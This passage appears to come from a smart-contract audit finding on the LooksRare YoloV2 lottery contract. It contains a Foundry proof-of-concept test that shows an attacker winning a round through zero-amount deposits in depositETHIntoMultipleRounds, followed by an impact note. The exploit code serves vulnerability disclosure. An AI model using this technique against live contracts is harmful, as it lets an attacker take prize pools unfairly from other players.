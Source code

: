 ```javascript
        vm.stopPrank();

        vm.startPrank(attacker);
        yolo.depositETHIntoMultipleRounds{value: 0.5 ether}(attacker_amt());

        deposits = _getDeposits(1);
        assertEq(deposits.length, 4);

        deposit = deposits[3];
        assertEq(uint8(deposit.tokenType), uint8(IYoloV2.YoloV2__TokenType.ETH));
        assertEq(deposit.tokenAmount, 0 ether);
        assertEq(deposit.depositor, attacker);
        assertEq(deposit.currentEntryIndex, 3);

        vm.stopPrank();

        vm.prank(VRF_COORDINATOR);

        vm.assume(randomWord % 3 == 0 || randomWord % 3 == 2); // in this case the winning entry becomes 1 or 3 for alice and bob
        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = randomWord;

        vm.warp(block.timestamp + ROUND_DURATION);
        yolo.drawWinner();
        
        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        (
            IYoloV2.RoundStatus status, , , , , , address winner, , ,
        ) = yolo.getRound(1);
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Drawn));
        assertEq(winner, attacker);
    }
}
```
As we can see, the attacker can win the round without depositing any ETH to the current round and this can be extended to any other upcoming rounds by calling `depositETHIntoMultipleRounds` with just increasing the length of `amounts` with zero values and one non zero value.
## Impact

Attacker can win the round without depositing any ETH to the current and other players will have unfair opportunites.

## Code Snippet

https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312-L362
